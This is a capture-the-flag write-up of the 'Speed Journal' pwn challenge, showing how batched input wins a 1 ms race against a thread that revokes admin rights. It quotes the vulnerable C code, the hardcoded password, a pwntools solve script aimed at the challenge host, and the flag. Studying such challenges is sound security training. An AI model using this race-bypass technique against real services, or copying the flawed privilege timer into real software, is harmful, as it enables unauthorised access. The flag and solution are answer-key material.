


## Overview

**Speed Journal** is a Pwn challenge where we must read a restricted log entry. The application uses a threaded timer to revoke admin privileges almost immediately after login, creating a race condition.

| Category | Difficulty | Flag |
|----------|------------|------|
| Pwn / Concurrency | Medium | `RUSEC{wow_i_did_a_data_race}` |

---

## Analysis

We are provided with `speedjournal.c`. The application acts as a logging system where users can read/write logs. The flag is in log index 0, restricted to admins.

### Global State & The Flag

```c
strcpy(logs[0].content, "RUSEC{not_the_real_flag}\n");
logs[0].restricted = 1; // Requires admin to read
```

### The Authentication Mechanism

The vulnerability lies in how `is_admin` is managed during login:

```c
if (strncmp(pw, "supersecret\n", 12) == 0) {
    is_admin = 1; // [A] Elevate privileges

    pthread_t t;
    pthread_create(&t, NULL, logout_thread, NULL); // [B] Start timer
    pthread_detach(t);
    
    puts("[+] Admin logged in (temporarily)");
}
```

### The Race Condition

The `logout_thread` keeps privileges active for only **1 millisecond**:

```c
void *logout_thread(void *arg) {
    usleep(WAIT_TIME); // Wait 1000 microseconds (1ms)
    is_admin = 0;      // [C] Revoke privileges
    return NULL;
}
```

To get the flag, we must perform the following actions within that 1ms window:
1. Finish the `login_admin` function.
2. Return to `main`.
3. Select option `3` (Read log).
4. Select index `0`.

---

## Vulnerability: Input Latency

If a human connects via netcat and types manually, the latency makes this impossible:



## Exploitation Strategy: Input Pipelining

To win the race, we utilize **Input Pipelining**. We send all required commands in a single TCP packet. The server's `stdin` buffer will be populated immediately, and the main thread will consume these inputs much faster than the operating system can schedule the sleeping thread.

**Payload Chain:**
1. `1\n` -> Enter Login Menu
2. `supersecret\n` -> Authenticate
3. `3\n` -> Enter Read Menu (immediately after login)
4. `0\n` -> Request Index 0 (immediately after menu selection)



---

## Solution Script

Using `pwntools` to send the batched payload:

```python
from pwn import *

# Context Settings
context.log_level = 'info'

# Target Connection
HOST = 'challs.ctf.rusec.club'
PORT = 22169

def solve():
    # Connect to the remote instance
    try:
        r = remote(HOST, PORT)
    except:
        print("[-] Could not connect to target.")
        return

    # Payload Construction
    # We chain the inputs together using newlines (\n)
    # 1           = Menu: Login
    # supersecret = Password
    # 3           = Menu: Read Log
    # 0           = Index of the flag
    payload = b"1\nsupersecret\n3\n0\n"

    print("[*] Sending batched payload to win the race...")
    
    # Send all bytes at once. 
    # The server processes stdin faster than the 1ms sleep thread.
    r.send(payload)

    # Receive the output until we find the flag or the connection closes
    response = r.recvall(timeout=2).decode(errors='ignore')
    
    if "RUSEC{" in response:
        print("\n[+] SUCCESS! Flag found:")
        # Extract flag using simple parsing
        for line in response.split('\n'):
            if "RUSEC{" in line:
                print(f"    {line.strip()}")
    else:
        print("[-] Race failed or flag not found.")
        print(response)

    r.close()

if __name__ == "__main__":
    solve()
```

---

## Conclusion

This challenge demonstrates a classic **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability enforced by threading. By using input pipelining, we effectively bypassed the artificial time constraint imposed by the `usleep` function.

**Flag:** `RUSEC{wow_i_did_a_data_race}`
